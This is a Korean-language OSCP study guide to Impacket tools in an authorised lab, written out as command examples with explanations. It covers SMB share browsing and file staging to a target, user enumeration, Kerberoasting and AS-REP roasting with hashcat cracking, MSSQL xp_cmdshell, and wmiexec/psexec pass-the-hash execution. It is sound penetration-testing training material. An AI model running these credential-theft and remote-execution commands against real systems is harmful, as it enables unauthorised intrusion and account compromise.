# Impacket 실전 집중 가이드 { #impacket }

**Updated / 최종 수정:** 2026-11-05

!!! abstract "Impacket을 마스터한다는 뜻"
    프로토콜과 인증 대상을 고르고, 필요한 권한을 이해하고, 출력을 읽은 뒤 다음 행동을 정하는 능력입니다. 로그인 성공은 관리자 권한과 다릅니다. NT 해시와 NetNTLM 챌린지·응답은 다르며, 티켓도 비밀번호가 아닙니다.

[Active Directory](active-directory.md)와 [실전 종합 가이드](practical-guide.md)의 실행 참고서입니다. 기본 흐름은 **공유 확인 → 사용자·SPN 수집 → 인증 자료 확보 → 인증 후 접근 → 필요한 권한이 있을 때만 호스트 비밀정보 또는 복제 기능 사용**입니다.

!!! note "화면과 검증 범위"
    이미지는 Linux 컨테이너에서 Impacket 0.13.1의 upstream `.py` 실행 파일로 **실제 수집한 명령 출력을 화면으로 렌더링**한 것입니다. 도움말 화면은 실제 `-h` 출력이며 일부는 관련 줄만 표시했습니다. AD 공격 성공 화면이 아닙니다. 서비스에 직접 연결해 실행한 것은 루프백 SMB 랩입니다. 아래 Windows·AD 명령은 실습 절차이며 실제 시험 결과를 주장하지 않습니다. [화면 재현 실습](labs/tool-practice.md)을 참고하세요.

!!! warning "시험 전 확인"
    본인 소유 또는 허가받은 랩에서 연습하세요. [공식 Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)와 [도구 제한](exam-format.md#restricted)을 확인하세요. Impacket의 모든 스크립트·기능이 일괄 허용되는 것은 아닙니다. 여기서는 릴레이·포이즈닝·자동 공격 체인을 다루지 않습니다. 시험 전에 공부하는 자료이며 시험 중 AI 도움은 금지됩니다.

## 1. 설치와 실행 파일 이름 확인 { #setup }

Kali에서는 배포판 패키지를 사용합니다. pipx 설치는 주로 `GetUserSPNs.py`, Kali는 `impacket-GetUserSPNs` 형태입니다. 대소문자를 구분합니다. 시간 제한 실습 중 개발판 소스와 배포판 라이브러리를 섞지 마세요.

```bash
sudo apt update
sudo apt install impacket-scripts python3-impacket
command -v impacket-GetUserSPNs impacket-secretsdump
impacket-GetUserSPNs -h
python3 -c 'from importlib.metadata import version; print(version("impacket"))'
# Alternative isolated upstream installation, not alongside a broken system install:
# pipx install 'impacket==0.13.1'
# GetUserSPNs.py -h
```

버전을 노트에 적습니다. 아래는 Kali 이름이므로 pipx 사용 시 해당 `.py` 이름으로 바꾸세요. `ModuleNotFoundError`는 설치·인터프리터 문제이지 대상의 취약점이 아닙니다.

## 2. 인증 문자열과 인증 방식 { #identity }

다음은 **가상 실습 환경**입니다. 주소를 할당받은 랩 주소로 바꾸세요. 비밀번호를 문자열에 넣지 않은 명령은 입력을 요청합니다. 비밀번호에 `@`, `:` 또는 셸 특수문자가 있을 때 생기는 구문 오류를 줄일 수 있습니다.

```bash
export LAB_DOMAIN=training.test
export LAB_DC=10.10.20.10
export LAB_DC_FQDN=dc01.training.test
export LAB_HOST=10.10.20.21
export LAB_HOST_FQDN=ms01.training.test
export LAB_USER=learner
mkdir -p ~/oscp-lab/{notes,loot,screens}
cd ~/oscp-lab
getent hosts "$LAB_DC_FQDN" "$LAB_HOST_FQDN"
# Normal identity: DOMAIN/user@target  (password will be requested)
impacket-smbclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST"
# A discovered NT hash, NOT a NetNTLMv2 response:
# impacket-wmiexec -hashes ":$LAB_NT" "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Existing Kerberos ccache, target must match the service hostname:
# KRB5CCNAME="$PWD/learner.ccache" impacket-smbclient -k -no-pass #   -dc-ip "$LAB_DC" "$LAB_DOMAIN/$LAB_USER@$LAB_HOST_FQDN"
```

| 인증 자료 | 뜻과 사용법 |
|---|---|
| 비밀번호 | `DOMAIN/user@host` 뒤에 입력. SQL 자체 인증은 도메인을 생략할 수 있음 |
| NT 해시 | `-hashes LMHASH:NTHASH`; LM이 없으면 `:NTHASH`. NT는 32자리 16진수 |
| NetNTLMv2 응답 | 캡처한 챌린지·응답. 해당 형식으로 크래킹하며 `-hashes`에 그대로 넣을 수 **없음** |
| TGT / 서비스 티켓 | `KRB5CCNAME`으로 `.ccache` 선택. `-k -no-pass`는 비밀번호 질문 없이 Kerberos 사용 |
| `-dc-ip` | DC/KDC 주소. 모든 서비스 접속을 DC로 바꾸는 옵션이 아님 |
| `-target-ip` | 지원하는 도구에서 인증용 호스트 이름을 유지하면서 실제 접속 IP 지정 |

로컬 계정 예: `MS01/Administrator@10.10.20.21`. 도메인 계정 예: `training.test/Administrator@10.10.20.21`. 서로 다른 계정·비밀번호일 수 있습니다. Kerberos 문제를 보기 전에 라우팅·DNS·시계를 확인하세요.

## 3. 상황별 도구 선택 { #tool-map }

| 상황 | 도구 | 전제 조건 / 결과 |
|---|---|---|
| 공유 읽기·파일 전송 | `smbclient`, `smbserver` | 공유 권한 / 목록 또는 전송 파일 |
| 도메인 사용자 열거 | `GetADUsers`, `lookupsid` | LDAP 또는 허용된 SAM/LSA RPC 접근 / 계정명 |
| SPN 조회와 로스팅 자료 요청 | `GetUserSPNs` | 유효한 도메인 인증, KDC 접근 / TGS 해시 |
| 알려진 계정의 AS-REP 요청 | `GetNPUsers` | 사전 인증이 비활성화된 계정 / AS-REP 해시 |
| MSSQL 쿼리·SQL 권한 확인 | `mssqlclient` | SQL Server가 허용하는 SQL 또는 Windows 로그인 |
| 권한 있는 계정으로 명령 실행 | `wmiexec`, `psexec`, `smbexec` | 원격 관리 권한, 포트와 공유 접근 |
| SAM 분석·호스트 비밀정보·DCSync | `secretsdump` | 모드마다 다른 권한 필요. 11절 참고 |
| Kerberos 티켓 발급·사용 | `getTGT`, `getST`, `ticketConverter` | 올바른 키·비밀번호·티켓. 사용자 가장에는 위임 권한도 필요 |

어느 도구도 모든 접근 제한을 우회하지 않습니다. 필요한 권한이 없으면 다른 경로를 찾아야 합니다.

## 4. smbclient — 실행보다 공유 열람부터 { #smbclient }

**언제:** 445번 포트에 접근 가능하고 인증 정보 또는 허용된 익명 세션이 있을 때. 파일·공유 클라이언트이며 Windows 명령 셸이 아닙니다. 관리자 실행부터 시도하기 전에 유용한 공유를 확인하세요.

```bash
impacket-smbclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST"
# Inside the SMB mini-shell:
# shares
# use IT
# ls
# cd Backups
# get app.config
# exit
```

**볼 것:** 공유 목록에 보이는 것과 읽을 수 있는 것은 다릅니다. `use`와 `ls`로 접근을 확인합니다. `get`은 로컬 작업 폴더에 저장합니다. 허가된 랩 설정 파일의 사용자명·연결 문자열·서비스 이름을 살펴보고 해당 서비스에서 인증을 확인하세요. `C$`의 `STATUS_ACCESS_DENIED`는 일반 사용자 로그인 성공과 동시에 발생할 수 있습니다. SMB `cat`으로 플래그를 읽어도 **시험 증빙은 아닙니다**. 대상의 인터랙티브 셸을 확보하세요.

{ loading=lazy }

{ loading=lazy }

## 5. smbserver — 통제된 파일 전송 { #smbserver }

**언제:** Windows 랩 호스트가 공격자 VM에서 도구를 받아야 할 때. 홈 전체 대신 전용 배포 폴더를 공유합니다. 일반 Windows UNC 경로는 445번을 쓰므로 해당 포트 바인딩 권한이 필요합니다.

```bash
mkdir -p ~/oscp-lab/stage
# Copy only the intended lab file into stage first.
sudo impacket-smbserver STAGE ~/oscp-lab/stage -smb2support   -username labshare -password 'LabOnly-123!'
# On the Windows target, replace 10.10.14.5 with your reachable Kali address:
# net use \\10.10.14.5\STAGE /user:labshare LabOnly-123!
# copy \\10.10.14.5\STAGE\tool.exe C:\Windows\Temp\tool.exe
# net use \\10.10.14.5\STAGE /delete
```

`STAGE`는 공유 이름이고 다음 인수는 로컬 폴더입니다. `-smb2support`는 SMB2를 켭니다. 서버 로그의 인증 성공은 연결을 뜻할 뿐 복사 완료가 아닙니다. 양쪽의 크기와 SHA-256을 비교하세요. 최신 Windows는 게스트 SMB를 거절할 수 있으므로 명시적인 랩 계정을 사용합니다. 관리자 권한 없는 연습은 [로컬 랩](labs/tool-practice.md#smb)의 Impacket API 미니 셸로 1445에 접속합니다. 0.13.1의 `smbclient` CLI는 139/445만 허용하므로 `-port 1445`는 거절됩니다. 일반 UNC 복사에도 `:1445`를 붙일 수 없습니다. 끝나면 서버를 종료하세요.

{ loading=lazy }

## 6. GetADUsers와 lookupsid — 계정 확인 { #enumeration }

**언제:** 사용자명과 도메인 정보를 알아야 할 때. `GetADUsers`는 도메인 계정으로 LDAP를 조회합니다. `lookupsid`는 SMB 위 RPC로 SID/RID를 조회하며 정책에 따라 거절될 수 있습니다. 이름 열거와 비밀번호 스프레이는 다른 작업입니다.

```bash
impacket-GetADUsers "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC" -all
impacket-lookupsid "$LAB_DOMAIN/$LAB_USER@$LAB_DC" 2000
```

`-all`은 LDAP 사용자 목록 범위를 넓힙니다. `2000`은 RID 조회 상한이며 포트가 아닙니다. 도메인 SID, `SidTypeUser` 계정명과 확인 가능한 계정 상태를 기록하세요. 그룹·컴퓨터 이름을 모두 사람의 로그인 계정으로 취급하지 마세요. 다음은 확인된 사용자나 SPN 조사이며, 추측 비밀번호를 계속 넣는 단계가 아닙니다.

{ loading=lazy }

{ loading=lazy }

## 7. GetUserSPNs — 조회 후 티켓 요청 { #kerberoast }

**전제:** 유효한 도메인 계정, 이름 해석, LDAP/KDC 접근과 SPN이 등록된 서비스 계정. SPN은 `MSSQLSvc/ms01.training.test:1433` 같은 서비스 이름입니다. SPN이 있다고 비밀번호가 약하다는 뜻은 아닙니다.

```bash
# List SPNs and account names first:
impacket-GetUserSPNs "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"
# Then request TGS material for a known lab service account:
impacket-GetUserSPNs "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"   -request-user svc_sql -outputfile loot/kerberoast.txt
# Only if output starts with $krb5tgs$23$ (RC4):
# hashcat -m 13100 loot/kerberoast.txt /usr/share/wordlists/rockyou.txt
```

**볼 것:** SPN과 계정의 연결, 이어서 해시 접두사와 암호화 유형. `-request-user`는 요청 대상을 좁히며 `-outputfile`은 평문이 아니라 크래킹 자료를 저장합니다. `$krb5tgs$18$`은 13100이 아닌 별도 모드(19700)입니다. 관련성 높은 짧은 단어 목록부터 시도하고, 복구한 비밀번호를 해당 계정으로 검증하세요. 출력이 비면 SPN 부재뿐 아니라 도메인·LDAP·암호화 문제도 확인해야 합니다.

{ loading=lazy }

## 8. GetNPUsers — 사전 인증 예외 계정 { #asrep }

**전제:** Kerberos 사전 인증이 필요 없도록 설정된 계정의 사용자명. 이 요청 자체에는 비밀번호가 필요 없지만 일반 계정 대부분은 해당하지 않습니다. 사용자 목록은 꾸며진 출력 전체가 아니라 한 줄에 한 계정명이어야 합니다.

```bash
impacket-GetNPUsers "$LAB_DOMAIN/svc_legacy" -dc-ip "$LAB_DC"   -no-pass -format hashcat -outputfile loot/asrep.txt
# For a small known lab-user list:
# impacket-GetNPUsers "$LAB_DOMAIN/" -dc-ip "$LAB_DC" #   -usersfile notes/users.txt -no-pass -format hashcat -outputfile loot/asrep.txt
# For $krb5asrep$23$ output:
# hashcat -m 18200 loot/asrep.txt /usr/share/wordlists/rockyou.txt
```

`UF_DONT_REQUIRE_PREAUTH`가 없다는 메시지는 해당 계정에 이 경로가 적용되지 않는다는 뜻입니다. `KDC_ERR_C_PRINCIPAL_UNKNOWN`은 그 realm에서 계정을 못 찾았다는 뜻입니다. 이를 대규모 비밀번호 추측 반복으로 바꾸지 마세요. AS-REP는 사용자 사전 인증 설정, TGS 로스팅은 SPN 서비스 계정이 대상입니다.

{ loading=lazy }

## 9. mssqlclient — OS 실행 전에 SQL 권한 확인 { #mssql }

**언제:** TCP 1433 또는 확인된 MSSQL 포트에 접근할 수 있을 때. Windows 인증(`-windows-auth`)과 SQL 자체 인증은 다릅니다. SMB에 성공한 도메인 비밀번호가 SQL 로그인 권한까지 보장하지 않습니다.

```bash
impacket-mssqlclient "$LAB_DOMAIN/$LAB_USER@$LAB_HOST" -windows-auth
# SQL-native account instead:
# impacket-mssqlclient "sql_reader@$LAB_HOST" -port 1433
# In the SQL shell:
# SELECT SYSTEM_USER, ORIGINAL_LOGIN(), DB_NAME();
# SELECT IS_SRVROLEMEMBER('sysadmin');
# SELECT name FROM sys.databases;
# help
# Only in a lab where your SQL role permits configuration changes:
# enable_xp_cmdshell
# xp_cmdshell whoami
# disable_xp_cmdshell
```

`IS_SRVROLEMEMBER`의 1은 멤버, 0은 비멤버이며 계정·역할을 확인할 수 없으면 NULL일 수도 있습니다. SQL `sysadmin`과 Windows 로컬 관리자는 다릅니다. `xp_cmdshell`은 SQL 서비스 계정 또는 설정된 프록시로 실행되므로 `whoami`로 확인하세요. 자동으로 SYSTEM이 되지 않습니다. 기존 설정을 기록하고 바꿨다면 복원하세요. 권한이 없으면 거절된 기능을 반복 실행하지 말고 허용된 DB·설정·가장 권한을 살펴봅니다.

{ loading=lazy }

## 10. wmiexec·psexec·smbexec — 전제 조건으로 선택 { #execution }

세 도구 모두 일반적으로 관리자 수준의 원격 접근 권한이 필요합니다. 일반 도메인 사용자의 비밀번호가 맞는다는 이유로 권한을 높여 주지 않습니다. 사용한 인증 주체와 호스트 변경 사항을 기록하세요.

```bash
# Password is requested; use an account already confirmed to have the needed rights.
impacket-wmiexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Alternatives when their prerequisites are met:
# impacket-psexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# impacket-smbexec "$LAB_DOMAIN/adminuser@$LAB_HOST"
# Hash authentication (set LAB_NT to a discovered 32-hex NT hash first):
# impacket-wmiexec -hashes ":$LAB_NT" "$LAB_DOMAIN/adminuser@$LAB_HOST"
# At the remote command prompt, separately:
# whoami
# hostname
# ipconfig
```

| 도구 | 방식·네트워크 조건 | 자주 나는 오류와 점검 |
|---|---|---|
| `wmiexec` | WMI/DCOM, RPC 135 + 동적 RPC. 기본 출력 회수에는 SMB 445와 관리자 공유 사용 | RPC 시간 초과 → 경로·방화벽. 출력·공유 거절 → 권한·SMB 접근 |
| `psexec` | 쓰기 가능한 SMB 공유에 업로드 후 SCM으로 서비스 생성 | 쓰기 공유 없음·서비스 거절 → 관리자 권한·공유 정책·엔드포인트 통제 |
| `smbexec` | 서비스 기반 명령 실행. 출력 방식은 모드에 따라 다름 | SCM 거절 → 권한. 출력 없음 → SMB 경로·모드 |

`wmiexec`와 `smbexec`는 반대화형(semi-interactive) 프롬프트입니다. 명령마다 새 프로세스일 수 있으므로 `set`, `cd`, 대화형 프로그램이 일반 터미널처럼 유지된다고 가정하지 마세요. 전체 경로를 사용하고 문맥을 확인합니다. `psexec`는 보통 서비스를 생성하고 흔히 SYSTEM으로 실행되지만 반드시 `whoami`로 확인하세요. 끝나면 도구의 정리 메시지를 확인하되 임의 서비스를 삭제하지 마세요.

시험 증빙은 **대상의 인터랙티브 셸**에서 원래 위치의 플래그를 `type`/`cat`으로 읽고 IP를 함께 보여야 합니다. 내려받은 플래그나 일회성 출력 파일로 대신하지 마세요. [증빙 조건](exam-format.md#flag-rules)을 참고하세요.

